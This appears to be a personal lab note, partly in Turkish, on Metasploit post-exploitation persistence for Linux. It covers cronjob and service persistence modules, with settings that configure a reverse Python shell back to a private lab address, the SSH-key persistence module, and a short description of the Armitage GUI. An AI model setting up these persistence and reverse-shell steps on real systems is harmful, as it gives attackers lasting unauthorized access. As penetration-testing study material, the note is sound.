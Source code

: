 ----

### Cronjob setup module
## use 3


---

## Service Persistence Module
![[Pasted image 20240318232627.png]]
set payload cm/unix/reverse_python
set Lport 4748
set Lhost 10.0.2.4
set sessions 4
## run

![[Pasted image 20240318234129.png]]
### Bu çalışıyor.


---

## search linux persistence
### post/linux/manage/sshkey_persistence 
![[Pasted image 20240318234300.png]]


---

post/linux/manage/sshkey_persistence 

---
---


## #Armitage
+ Armitage is a free Java based GUI front-end for the Metasploit Framework developed by Raphael Mudge and is used to simplify network discovery, exploitation and post exploitation.

![[Pasted image 20240319104203.png]]

### Her seferinde 1 işlem yapmaya çalış JAVA ile üretildiği için yavaşlatır.








